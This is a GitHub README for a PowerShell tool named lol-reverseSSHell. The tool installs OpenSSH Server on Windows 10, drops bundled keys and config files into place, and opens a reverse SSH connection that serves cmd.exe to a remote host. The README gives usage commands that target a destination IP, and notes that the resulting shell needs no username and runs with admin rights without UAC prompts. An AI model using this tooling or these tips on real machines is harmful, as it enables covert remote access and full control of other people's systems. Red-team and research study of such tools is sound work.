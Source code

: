 # lol-reverseSSHell.ps1
Living Off the LAN Reverse Shell over SSH

This script is intended to make SSH reverse shells easier to initiate on Windows 10. It utilizes OpenSSH Server to forward a CMD.exe shell. If OpenSSH Server is missing from the Windows 10 host it will install it via WindowsCapability / DISM. ( * If OpenSSH server is missing, the script will ask to install it, by downloading OpenSSH Server from Microsoft.) Then the script will copy the sshd_config file, ssh private key, and authorized_keys files from the repo's root to the proper locations on the Windows host. Finally it creates a reverse SSH connection. The shell served is CMD.exe by default. Once you're in the cmd.exe cli, you can type 'powershell' to get a PS shell. 

* Please generate NEW SSH KEYs. Use the repo's keys only for testing. 

Usage: 
* .\lol-reverseSSHell.ps1 -DestinationUserName `<user>` -DestinationHost 10.10.10.10
* .\lol-reverseSSHell.ps1 -DestinationUserName `<user>` -DestinationHost 10.10.10.10 -DestinationPort 22 -DestinationBindLocalPort 7777 -InstallOpenSSHServer yes 
* get-help .\lol-reverseSSHell.ps1 

* get-help .\lol-reverseSSHell.ps1 -Examples

Remote cmd.exe in a bash terminal via ssh: 
![alt text](https://github.com/ArronJablonowski/lol-reverseSSHell/blob/main/image.png?raw=true)
Remotely executing commands via cmd.exe and powershell:  
![alt text](https://github.com/ArronJablonowski/lol-reverseSSHell/blob/main/image02.png?raw=true)

Windows VS Unix Reverse SSH Shells, and the Interesting Security Implications for Windows Users
-----------------------------------------------------------------------------------------------
Running list as I do research: 
* Unknown Usernames are OK - Once you have a reverse connection, Windows does NOT require knowing the username to authenticate to a shell when using keypair authentication. A simple call to localhost and port will connect to a shell under the context of the user that initiated the reverse ssh connection. 
  
  --- Windows Example --- ssh localhost -p `<localport>`  
  --- Unix Example --------- ssh user123@localhost -p `<localport>` 
   
* Admin Privleges - Because the shell is ran using admin privleges, and most Windows users run as privleged users, the shell will have admin privleges without ever needing to know the user's name or admin password. After a shell has been initiated, there are no password prompts or UAC alerts to prevent commands from being ran with elevated privleges. Almost equivlent to a root shell in Unix. Which means you can browse the entire file system and modify system files without permissions issues.  

